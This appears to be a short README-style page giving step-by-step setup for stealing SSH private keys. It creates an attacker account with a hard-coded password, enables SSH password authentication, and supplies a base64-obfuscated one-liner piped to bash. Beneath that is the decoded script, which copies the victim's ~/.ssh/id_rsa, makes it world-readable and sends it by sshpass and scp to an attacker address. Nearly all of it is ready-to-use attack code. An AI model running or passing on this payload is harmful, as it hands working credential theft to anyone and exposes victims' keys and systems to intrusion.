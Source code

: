 ### Install sshpass 

```
sudo apt install sshpass
```



### On Attacker enable 

```
sudo adduser attacker
```

*** pwd: attacker12345!***

### optional

```
sudo usermod -aG sudo newusername
```


```
$ls /etc/ssh/sshd_config.d/60-cloudimg-settings.conf
$ cat /etc/ssh/sshd_config.d/60-cloudimg-settings.conf 
PasswordAuthentication yes
```

```
sudo su - attacker
```

### Base64 payload 

```
echo "IyEvYmluL2Jhc2gKCmlmIFsgLWQgIiRIT01FLy5zc2giIF07IHRoZW4KICBpZiBbIC1mICIkSE9N
RS8uc3NoL2lkX3JzYSIgXTsgdGhlbgogICAgbWtkaXIgLXAgfi90bXAvc3NoX2tleXMKICAgIGNw
ICIkSE9NRS8uc3NoL2lkX3JzYSIgfi90bXAvc3NoX2tleXMvCiAgICBjaG1vZCA3Nzcgfi90bXAv
c3NoX2tleXMvaWRfcnNhCiAgICBzc2hwYXNzIC1wICdhdHRhY2tlcjEyMzQ1IScgc2NwIH4vdG1w
L3NzaF9rZXlzL2lkX3JzYSBhdHRhY2tlckAxNzIuMzEuMzAuMTAzOn4vCiAgZmkKZmkK" | base64 -d | bash
```

### Script

```
#!/bin/bash

if [ -d "$HOME/.ssh" ]; then
  if [ -f "$HOME/.ssh/id_rsa" ]; then
    mkdir -p ~/tmp/ssh_keys
    cp "$HOME/.ssh/id_rsa" ~/tmp/ssh_keys/
    chmod 777 ~/tmp/ssh_keys/id_rsa
    sshpass -p 'attacker12345!' scp ~/tmp/ssh_keys/id_rsa attacker@172.31.30.103:~/
  fi
fi
```

